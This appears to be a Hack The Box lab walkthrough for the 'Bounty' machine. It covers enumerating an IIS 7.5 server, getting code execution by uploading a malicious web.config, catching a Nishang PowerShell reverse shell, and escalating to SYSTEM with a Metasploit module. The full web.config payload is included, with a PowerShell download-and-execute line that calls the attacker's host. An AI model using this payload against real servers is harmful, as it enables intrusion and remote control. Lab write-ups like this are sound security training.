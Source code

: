 ```yaml
---
layout: PostSimple
date: 
title:     "Hack The Box - Bounty"
tags: ['windows','easy','file-upload-vuln','isi']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/1.png)

We are going to pwn Bounty from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/142](https://www.hackthebox.eu/home/machines/profile/142)


Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|8.1|2012 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
## HTTP:
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/2.png)

Nothing interesting, lets run ``Gobuster``.

Gobuster Scan Results:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.93
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/09 19:03:45 Starting gobuster
===============================================================
/aspnet_client (Status: 301)
/transfer.aspx (Status: 200)
/uploadedfiles (Status: 301)
===============================================================
2020/03/09 19:10:48 Finished
===============================================================

```

``/transfer.aspx`` 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/3.png)

There is a file upload options so I guess we can upload a reverse shell here and access them in ``/uploadedfiles``

## Test:

I uploaded ``wolf.jpg`` and it Successfully Uploaded

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/4.png)

``/uploadedfiles/wolf.jpg``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/5.png)

So I tried uploading ``.aspx`` file and I get Invalid File.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/6.png)

I googled about ISI 7.5 exploits and found there is a RCE via uploading ``web.config``.

> Reference https://sethjackson.github.io/2018/10/27/rce-through-web-config-upload/

So I used [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) to get shell.

If we look at the Shell it gives us some of the examples.

```
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
```
I copied one of the example and changed it to my IP and paste it in bottom of the file. [br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/7.png)[br/](br/)
This not only load the module but also the shell give me a callback.

Started python server.

``web.config``

```
[?xml version="1.0" encoding="UTF-8"?](?xml version="1.0" encoding="UTF-8"?)
[configuration](configuration)
   [system.webServer](system.webServer)
      [handlers accessPolicy="Read, Script, Write"](handlers accessPolicy="Read, Script, Write")
         [add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /](add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /)         
      [/handlers](/handlers)
      [security](security)
         [requestFiltering](requestFiltering)
            [fileExtensions](fileExtensions)
               [remove fileExtension=".config" /](remove fileExtension=".config" /)
            [/fileExtensions](/fileExtensions)
            [hiddenSegments](hiddenSegments)
               [remove segment="web.config" /](remove segment="web.config" /)
            [/hiddenSegments](/hiddenSegments)
         [/requestFiltering](/requestFiltering)
      [/security](/security)
   [/system.webServer](/system.webServer)
[/configuration](/configuration)
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
[% Response.write("-"&"-](% Response.write("-"&"-)") %>

<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.22:8000/Invoke-PowerShellTcp.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>

[% Response.write("<!-"&"-") %](% Response.write("<!-"&"-") %)
-->
```

Uploaded ``web.config``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/8.png)

Now I need to visit ``10.10.10.93/uploadedfiles/web.config`` and I will get the shell.

``Status 200`` means it successfully downloaded to the box. And NC give me the shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/9.png)

I changed to Metasploit

``systeminfo``

```
Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          3/9/2020, 6:53:24 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,573 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,575 MB
Virtual Memory: In Use:    520 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
```

Where ``Hotfix(s): N/A`` which means the system is not updated so far.

> A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.

We can try ``local_exploit_suggester`` this will give us some suggestions to exploit. Before that we need to ``migrate`` process inorder to make it stable. So I won’t face any errors while using any exploit. 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/10.png)

Now Background the session and run ``local_exploit_suggester``.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/11.png)

It displayes a lot of vulnerable so I chose random one ``windows/local/ms10_092_schelevator``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/12.png)

Got Authority\System